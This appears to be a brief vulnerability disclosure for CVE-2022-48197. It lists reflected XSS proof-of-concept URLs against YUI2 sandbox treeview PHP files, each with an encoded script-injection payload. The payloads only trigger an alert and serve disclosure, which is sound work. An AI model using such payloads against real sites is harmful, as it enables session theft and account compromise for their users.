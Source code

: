 # CVE-2022-48197


Since Yahoo is no longer updating the project (per this announcement: https://yahooeng.tumblr.com/post/96098168666/important-announcement-regarding-yui), I've decided to disclose the vulnerabilities here:

The application has a lot of reflected XSS vulnerabilities in pretty much most files. A sample of the vulnerable files along with the exploit can be found here:

https://localhost/libs/bower/bower_components/yui2/sandbox/treeview/up.php?mode=1%27%22()%26%25%3Czzz%3E%3Cscript%3Ealert(%22xss%22)%3C/script%3E

https://localhost/libs/bower/bower_components/yui2/sandbox/treeview/sam.php?mode=1%27%22()%26%25%3Czzz%3E%3Cscript%3Ealert(%22xss%22)%3C/script%3E

https://localhost/libs/bower/bower_components/yui2/sandbox/treeview/renderhidden.php?mode=1%27%22()%26%25%3Czzz%3E%3Cscript%3Ealert(%22xss%22)%3C/script%3E

https://localhost/libs/bower/bower_components/yui2/sandbox/treeview/removechildren.php?mode=1%27%22()%26%25%3Czzz%3E%3Cscript%3Ealert(%22xss%22)%3C/script%3E

https://localhost/libs/bower/bower_components/yui2/sandbox/treeview/removeall.php?mode=1%27%22()%26%25%3Czzz%3E%3Cscript%3Ealert(%22xss%22)%3C/script%3E

https://localhost/libs/libs/bower/bower_components/yui2/sandbox/treeview/readd.php?mode=1%27%22()%26%25%3Czzz%3E%3Cscript%3Ealert(%22xss%22)%3C/script%3E

https://localhost/libs/bower/bower_components/yui2/sandbox/treeview/overflow.php?mode=1%27%22()%26%25%3Czzz%3E%3Cscript%3Ealert(%22xss%22)%3C/script%3E

https://localhost/libs/bower/bower_components/yui2/sandbox/treeview/newnode2.php?mode=1%27%22()%26%25%3Czzz%3E%3Cscript%3Ealert(%22xss%22)%3C/script%3E

https://localhost/libs/bower/bower_components/yui2/sandbox/treeview/newnode.php?mode=1%27%22()%26%25%3Czzz%3E%3Cscript%3Ealert(%22xss%22)%3C/script%3E


